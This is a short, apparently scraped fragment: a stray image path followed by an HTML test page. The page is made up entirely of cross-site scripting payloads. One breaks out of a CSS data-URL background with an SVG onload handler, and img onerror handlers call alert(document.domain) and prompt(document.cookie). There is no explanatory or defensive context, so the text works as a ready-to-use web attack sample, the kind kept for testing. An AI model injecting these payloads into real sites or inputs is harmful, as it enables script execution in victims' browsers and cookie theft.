 # localhost
&lt;!DOCTYPE html> &lt;html> &lt;head> &lt;style> div  {     background-image: url("data:image/jpg;base64,&lt;\/style>&lt;svg/onload=alert(document.domain)>");     background-color: #cccccc; } &lt;/style> &lt;/head> &lt;body>  &lt;div>"/>&lt;/a>&lt;img src="x" onerror="prompt(document.cookie)">&lt;img src=x onerror=alert(document.domain)>.gif&lt;/div>  &lt;/body> &lt;/html>

